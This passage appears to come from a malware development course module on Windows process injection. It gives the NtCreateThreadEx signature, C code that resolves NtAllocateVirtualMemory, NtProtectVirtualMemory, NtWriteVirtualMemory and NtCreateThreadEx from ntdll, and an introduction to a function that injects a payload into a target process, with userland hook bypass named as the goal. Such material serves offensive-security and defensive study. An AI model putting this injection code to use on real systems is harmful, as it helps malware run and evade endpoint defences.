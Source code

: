 ```
    IN 	SIZE_T                  StackSize,            // Set to NULL
    IN 	SIZE_T                  MaximumStackSize,     // Set to NULL
    IN 	PPS_ATTRIBUTE_LIST      AttributeList         // Pointer to PS_ATTRIBUTE_LIST structure (set to NULL)
);

```
`NtCreateThreadEx` looks similar to the `CreateRemoteThreadEx` WinAPI. `NtCreateThreadEx` is a very flexible syscall and can allow complex manipulation of the created threads. However, for our purpose, the majority of its parameters will be set to `NULL`.

### **Implementation Using GetProcAddress and GetModuleHandle**

Calling the syscalls will be done using several methods, starting with the commonly used `GetProcAddress` and `GetModuleHandle` WinAPIs. This technique is straightforward and has been used multiple times to dynamically call syscalls. As previously discussed, however, this method does not bypass any userland hooks installed on the syscalls.

In the code provided for download in this module, a `Syscall` structure is created and initialized using `InitializeSyscallStruct`, which holds the addresses of the syscalls used, as shown below.


```
// A structure that keeps the syscalls used
typedef struct _Syscall {

	fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
	fnNtProtectVirtualMemory  pNtProtectVirtualMemory;
	fnNtWriteVirtualMemory    pNtWriteVirtualMemory;
	fnNtCreateThreadEx        pNtCreateThreadEx;

} Syscall, *PSyscall;


// Function used to populate the input 'St' structure
BOOL InitializeSyscallStruct (OUT PSyscall St) {

	HMODULE hNtdll = GetModuleHandle(L"NTDLL.DLL");
	if (!hNtdll) {
		printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	St->pNtAllocateVirtualMemory  = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
	St->pNtProtectVirtualMemory   = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
	St->pNtWriteVirtualMemory     = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
	St->pNtCreateThreadEx         = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

        // check if GetProcAddress missed a syscall
	if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL || St->pNtWriteVirtualMemory == NULL || St->pNtCreateThreadEx == NULL)
		return FALSE;
	else
		return TRUE;
}

```
Next, the `ClassicInjectionViaSyscalls` function will be responsible for executing the payload, `pPayload`, in the target process, `hProcess`. The function returns `FALSE` if it fails to execute the payload and `TRUE` if it succeeds. Additionally, the function can be used to inject both local and remote processes depending on the value of `hProcess`.